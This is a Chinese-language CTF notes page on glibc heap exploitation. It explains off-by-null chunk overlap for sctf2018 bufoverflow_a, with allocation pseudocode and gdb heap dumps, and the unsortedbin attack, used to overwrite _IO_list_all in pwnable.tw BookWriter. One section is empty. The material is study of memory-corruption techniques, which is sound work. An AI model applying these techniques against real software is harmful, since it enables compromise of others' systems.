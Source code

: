 # The Method of Heap Use In CTF #
本篇文章的目的旨在对堆的一些使用方法和技巧进行总结，会不定期的更新。
## 1. off by null ##
以 **sctf2018 bufoverflow\_a** 题目为例，off by null的最终目的是为了完成chunk overlap，从而可以对其中的某些chunk内容进行改写。
### 利用方法1： ###
通过改写下一个chunk的size字段，从而将原空闲chunk的大小缩小。  
例如如下所示代码：
  
	Alloc(0x88)		#0
	Alloc(0x400)	#1
	Alloc(0x110)	#2
	Alloc(0x88)		#3

	Delete(0)
	Delete(1)
	Alloc(0x88)		#0
	Fill("a"*0x88)	//假设Fill函数中存在off by null漏洞，会多写一个"\x0"
此时，我们可以看看对于chunk1 的头部字段，Fill()函数执行前后的变化情况。  
	
	Fill()前
	0x0000000000000000	0x0000000000000091		<--chunk0
	......................................
	......................................
	0x0000000000000000	0x0000000000000000
	0x0000000000000000	0x0000000000000411		<--chunk1
	......................................
	......................................
	0x0000000000000410	0x0000000000000110		<--chunk2	
	
	Fill()后
	0x0000000000000000	0x0000000000000091		<--chunk0
	......................................
	......................................
	0x6161616161616161	0x6161616161616161
	0x6161616161616161	0x0000000000000400		<--chunk1
	......................................
	......................................
	0x0000000000000410	0x0000000000000110		<--chunk2		
			
可以看到，chunk1的大小减少了0x10byte。然后再次进行chunk的申请。  
	
	Alloc(0x88)		#1
	Alloc(0x88)		#4
	Alloc(0x200)	#5
	Alloc(0xc8)		#6
新申请的chunk1\_new，chunk4，chunk5，chunk6会占用之前chunk1\_old（大小为0x400）的位置。  
实际动态调试结果如下图所示：  

	0x5555557580b0:	0x6161616161616161	0x0000000000000091		<--chunk1
	0x5555557580c0:	0x00007ffff7dd1b78	0x00007ffff7dd1b78
	0x5555557580d0:	0xcccccccccccccccc	0xcccccccccccccccc
	0x5555557580e0:	0xcccccccccccccccc	0xcccccccccccccccc
	0x5555557580f0:	0xcccccccccccccccc	0xcccccccccccccccc
	0x555555758100:	0xcccccccccccccccc	0xcccccccccccccccc
	0x555555758110:	0xcccccccccccccccc	0xcccccccccccccccc
	0x555555758120:	0xcccccccccccccccc	0xcccccccccccccccc
	0x555555758130:	0xcccccccccccccccc	0xcccccccccccccccc
	0x555555758140:	0x0000000000000090	0x0000000000000090		<--chunk4
	0x555555758150:	0x0000000000000000	0x0000000000000000
	......................................................
	......................................................
	0x5555557581c0:	0x0000000000000000	0x0000000000000000
	0x5555557581d0:	0x0000000000000000	0x0000000000000211		<--chunk5
	0x5555557581e0:	0x0000000000000000	0x0000000000000000
	......................................................
	......................................................
	0x5555557583d0:	0x0000000000000000	0x0000000000000000
	0x5555557583e0:	0x0000000000000000	0x00000000000000d1		<--chunk6
	0x5555557583f0:	0x0000000000000000	0x0000000000000000
	......................................................
	......................................................
	0x5555557584a0:	0x0000000000000000	0x0000000000000000
	0x5555557584b0:	0x0000000000000000	0xcccccccccccccccd
	0x5555557584c0:	0x0000000000000410	0x0000000000000110		<--chunk2
	0x5555557584d0:	0x0000000000000000	0x0000000000000000

此时将chunk1\_new释放，再将chunk2释放。  

	Delete(1)
	Delete(2)
	Delete(5)
由于chunk2的presize字段的值仍为0x410，且其pre\_inuse为0（表示上一个块也处于释放状态）。释放chunk2会出发前向合并，形成一个包含chunk1，chunk4，chunk5，chunk6和chunk2的大块，如下图所示：

	gdb-peda$ x/150gx 0x5555557580c0-0x10
	0x5555557580b0:	0x6161616161616161	0x0000000000000521		<--原chunk1
	0x5555557580c0:	0x00007ffff7dd1b78	0x00007ffff7dd1b78
	0x5555557580d0:	0x0000000000000000	0x0000000000000000
	0x5555557580e0:	0xcccccccccccccccc	0xcccccccccccccccc
	0x5555557580f0:	0xcccccccccccccccc	0xcccccccccccccccc
	0x555555758100:	0xcccccccccccccccc	0xcccccccccccccccc
	0x555555758110:	0xcccccccccccccccc	0xcccccccccccccccc
	0x555555758120:	0xcccccccccccccccc	0xcccccccccccccccc
	0x555555758130:	0xcccccccccccccccc	0xcccccccccccccccc
	0x555555758140:	0x0000000000000090	0x0000000000000090		<--chunk4
	0x555555758150:	0x0000000000000000	0x0000000000000000
	......................................................
	......................................................
	0x5555557581c0:	0x0000000000000000	0x0000000000000000
	0x5555557581d0:	0x0000000000000000	0x0000000000000211		<--chunk5
	0x5555557581e0:	0x0000000000000000	0x0000000000000000
	......................................................
	......................................................
	0x5555557583d0:	0x0000000000000000	0x0000000000000000
	0x5555557583e0:	0x0000000000000000	0x00000000000000d1		<--chunk6
	0x5555557583f0:	0x0000000000000000	0x0000000000000000
	......................................................
	......................................................
	0x5555557584a0:	0x0000000000000000	0x0000000000000000
	0x5555557584b0:	0x0000000000000000	0xcccccccccccccccd
	0x5555557584c0:	0x0000000000000410	0x0000000000000110		<--原chunk2
	0x5555557584d0:	0xcccccccccccccccc	0xcccccccccccccccc
	0x5555557584e0:	0xcccccccccccccccc	0xcccccccccccccccc
	0x5555557584f0:	0xcccccccccccccccc	0xcccccccccccccccc


### 利用方法2： ###


## 2.Unsortedbin Attack ##
主要利用chunk分配过程中，如果使用unsortedbin进行分配，会有一个拆链的操作，该操作可以实现任意地址写固定值（unsortedbin地址）的操作。  

![vul](https://raw.githubusercontent.com/fade-vivida/CTF/master/picture/unsortedbin_attack.JPG)  

其中bck为当前待切分chunk（victim）的bk值，即bck = victim->bk。因此我们在利用时，可以伪造victim的bk值，使其等于我们想要修改地址-0x10的地址（64bit，32bit在为-0x8），这样就可以改写改地址的内容为一个很大的值（unsortedbin的地址）。

以pwnable.tw的一道题目（BookWriter）为例进行讲解。  

该题目类型为菜单类题目，通过漏洞点可以进行堆块的越界写，但没有提供free函数，题目中一个考点就是如何在没有free的情况下泄露libc的地址，使用的方法为修改topchunk\_size，当topchunk\_size不满足分配要求时，会先将该chunk申请，然后再进行free加入unsortedbin中，然后再在另一块区域分配一个新的topchunk。  

完成上述操作后heap布局如下图所示：  

![1](https://raw.githubusercontent.com/fade-vivida/CTF/master/picture/unsortedbin_attack1.JPG)

之后为了能够控制程序执行流程，需要改写\_IO\_list\_all为unsortedbin地址，在这我们使用的方法就为unsortedbin attack。在这里有一个需要注意的地方就是什么时候main\_arena中last\_remainder字段会发生变化。具体代码如下图所示：  

![2](https://raw.githubusercontent.com/fade-vivida/CTF/master/picture/unsortedbin_attack2.JPG)  

可以看到只有当前申请chunk大小（nb）为smallbin时，且unsortedbin中没有chunk大小正好等于申请大小（nb），此时会将所有chunk先放入到对应bin链表中，然后选择一个大于nb的最小chunk，将该chunk切分后将其加入unsortedbin中，并设置last\_remainder字段。  

然后再结合下图所示代码（last\_remainder字段发生改变的条件）：  
![3](https://raw.githubusercontent.com/fade-vivida/CTF/master/picture/unsortedbin_attack3.JPG)  

可以推断出如下结论：  
**注：last\_remainder字段可以认为是为smallbin设计的，largebin不会用到它。并且如果last\_remainder字段有值，则unsortedbin中肯定只存在一个chunk。**
